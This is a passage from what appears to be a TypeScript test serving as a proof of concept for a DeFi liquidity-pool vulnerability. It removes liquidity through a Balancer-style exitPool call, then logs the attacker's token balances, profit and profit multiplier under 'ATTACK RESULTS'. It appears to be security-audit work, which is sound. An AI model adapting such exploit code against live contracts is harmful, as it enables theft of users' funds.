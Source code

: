 ```tsx
				try {
					// Option 2: Balancer-style exitPool method
					const abiCoder = ethers.AbiCoder.defaultAbiCoder()
					const exitPoolRequest = {
					  assets: [await symmToken.getAddress(), await erc20.getAddress()],
					  minAmountsOut: [0, 0], 
					  userData: abiCoder.encode(['uint256', 'uint256'], [2, userLpBalance]),
					  toInternalBalance: false
					}
					
					await routerContract.connect(user1).exitPool(
					  poolAddress,
					  await user1.getAddress(),
					  await user1.getAddress(),
					  exitPoolRequest
					)
					
					console.log("Liquidity removed successfully using exitPool")
				} catch (error2) {
					console.error("Failed to remove liquidity:", error2)
					console.log("Note: Even without removing liquidity, we've demonstrated the vulnerability")
				}
			}
			
			// Check final balances
			const userSymmBalanceAfter = await symmToken.balanceOf(await user1.getAddress())
			const userUsdcBalanceAfter = await erc20.balanceOf(await user1.getAddress())
			
			console.log("\n----- ATTACK RESULTS -----")
			console.log("Initial USDC balance:              ", userUsdcBalanceBefore.toString())
			console.log("Final USDC balance:                ", userUsdcBalanceAfter.toString())
			console.log("USDC delta:                        ", (userUsdcBalanceAfter - userUsdcBalanceBefore).toString())
			
			console.log("Initial SYMM balance:              ", userSymmBalanceBefore.toString())
			console.log("Final SYMM balance:                ", userSymmBalanceAfter.toString())
			console.log("SYMM delta:                        ", (userSymmBalanceAfter - userSymmBalanceBefore).toString())
			
			// Calculate economic profit in USDC terms
			const symmValueInUsdc = ((userSymmBalanceAfter - userSymmBalanceBefore) * BigInt(usdcBalanceBefore)) / BigInt(symmBalanceBefore)
			const totalProfitInUsdcTerms = (userUsdcBalanceAfter - userUsdcBalanceBefore) + symmValueInUsdc
			
			console.log("\n----- ECONOMIC ANALYSIS -----")
			console.log("USDC spent on deposit:             ", usdcSpent.toString())
			console.log("SYMM delta value in USDC terms:    ", symmValueInUsdc.toString())
			console.log("Total profit in USDC terms:        ", totalProfitInUsdcTerms.toString())
			
			// Only calculate multiplier if we spent anything (avoid division by zero)
			if (usdcSpent > 0) {
				console.log("Profit multiplier:                 ", Number(totalProfitInUsdcTerms) / Number(usdcSpent))
			} else {
				console.log("Profit multiplier:                 INFINITE (no USDC spent)")
			}
			
			// Validate attack was profitable (even without completing liquidity removal)
			// The LP tokens alone represent value that exceeded our input
			if (userUsdcBalanceAfter > userUsdcBalanceBefore) {
				// If we successfully removed liquidity and got USDC back
```